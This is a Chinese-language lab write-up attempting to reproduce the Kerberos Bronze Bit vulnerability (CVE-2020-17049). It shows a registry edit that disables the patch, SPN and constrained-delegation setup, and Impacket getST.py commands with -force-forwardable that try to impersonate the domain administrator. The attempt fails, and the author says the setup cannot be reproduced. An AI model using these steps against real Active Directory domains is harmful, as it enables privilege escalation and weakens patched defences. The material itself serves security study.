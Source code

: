 # 一、漏洞原理

# 二、漏洞复现
1、补丁修补版本以及关闭补丁方法

注：文章中的初始部署阶段的系统版本才可使用该方法

![](../images/86423274198ba5db7b42d05038f37ab3.png)

修改注册表关闭补丁：

```plain
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Kdc
PerformTicketSignature
REG_DWORD
0
```

参考：[https://support.microsoft.com/en-us/topic/kb4598347-managing-deployment-of-kerberos-s4u-changes-for-cve-2020-17049-569d60b7-3267-e2b0-7d9b-e46d770332ab](https://support.microsoft.com/en-us/topic/kb4598347-managing-deployment-of-kerberos-s4u-changes-for-cve-2020-17049-569d60b7-3267-e2b0-7d9b-e46d770332ab)

2、配置委派

给hack用户新增spn（Delegation选项才会出现）

```plain
C:\Users\Administrator>setspn -A test/testspn1.sec.local:80 hack
Checking domain DC=sec,DC=local

Registering ServicePrincipalNames for CN=hack,CN=Users,DC=sec,DC=local
        test/testspn1.sec.local:80
Updated object

C:\Users\Administrator>
```

配置hack用户对cifs/Win2019-DC1.sec.local具有约束性委派

![](../images/3b85571a5e74a13eddb56c15fa1cea3f.png)

配置administrator用户为“敏感用户，不能被委派”

![](../images/385a7a811812385aaf0f393b2a002067.png)

3、申请委派

在常规命令中，会提示：

```plain
┌──(root㉿Kali)-[~]
└─# getST.py -dc-ip 10.10.4.2 sec.local/hack:"Az123456@" -spn CIFS/Win2019-DC1.sec.local -impersonate administrator
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2Proxy
[-] Kerberos SessionError: KDC_ERR_BADOPTION(KDC cannot accommodate requested option)
[-] Probably SPN is not allowed to delegate by user hack or initial TGT not forwardable

```

添加-force-forwardable参数后

```plain
                                                                                                                                                                                                                                                                                                                                        ┌──(root㉿Kali)-[~]
└─# getST.py -dc-ip 10.10.4.2 sec.local/hack:"Az123456@" -spn CIFS/Win2019-DC1.sec.local -impersonate administrator -force-forwardable
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*]     Forcing the service ticket to be forwardable
[*] Requesting S4U2Proxy
[-] Kerberos SessionError: KRB_AP_ERR_MODIFIED(Message stream modified)

```

注：因安装较新版本，无法复现该环境